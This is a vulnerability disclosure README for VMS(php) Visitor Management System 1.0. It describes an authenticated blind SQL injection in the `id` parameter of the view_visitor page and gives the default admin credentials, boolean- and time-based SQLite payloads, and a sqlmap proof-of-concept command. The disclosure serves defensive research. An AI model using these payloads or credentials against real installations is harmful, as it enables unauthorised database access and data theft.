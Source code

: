<div align="center">
    <h1>VMS(php) Visitor Management System</h1>
    <h3>Authenticated Blind SQL Injection (View Visitor)</h3>
    <br />
    <!-- Vendor -->
    <a href="https://www.sourcecodester.com/">
        <img src="https://img.shields.io/badge/vendor-sourcecodester.com-8DD6F9?style=for-the-badge&logo=webpack" alt="Vendor: sourcecodester.com" title="Vendor: sourcecodester.com" />
    </a>
    <!-- Version & Download -->
    <a href="https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-sqlite-vms.zip">
        <img src="https://img.shields.io/badge/version-1.0-F16728?style=for-the-badge&logo=vitess" alt="Version: 1.0" title="Version: 1.0" />
    </a>
    <!-- Vulnerability -->
    <a href="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection">
        <img src="https://img.shields.io/badge/vulnerability-Blind%20SQL%20Injection-EAEAEA?style=for-the-badge&logo=owasp" alt="Blind SQL Injection" title="Blind SQL Injection" />
    </a>
    <!-- Exploit -->
    <a href="#">
        <img src="https://img.shields.io/badge/exploit-Not found-494649?style=for-the-badge&logo=hackaday" alt="Blind SQL Injection" title="Blind SQL Injection" />
    </a>
    <br />
</div>

---

## 📝 Description

VMS(php) 1.0 allows Authenticated Blind SQL Injection (Time-based & Boolean-based) via the GET parameter `id` in the `/?page=view_visitor` endpoint.

This endpoint can be triggered through the following menu: Visitor List > Action > View visitor.

## ℹ️ Information

**Entrypoint**: http://localhost/php-sqlite-vms/

**Default credentials**:

| Username | Password |
| --- | --- |
| admin | sourcecodester&123 |

## 💉 Injection Point

```sql
Parameter: id (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: /?page=view_visitor&id=4' AND 2488=2488 AND 'cutA'='cutA

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: /?page=view_visitor&id=4' AND 5085=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'UtVl'='UtVl
```

## 📋 Database Schema

```
[3 tables]
+-----------------+
| sqlite_sequence |
| user_list       |
| visitor_list    |
+-----------------+
```

## 🕹️ Proof of Concept

```sh
sqlmap --url 'http://localhost/?page=view_visitor&id=1' -p 'id' --dbms 'sqlite' --technique 'BT' --cookie 'PHPSESSID=9447ea9b...'
```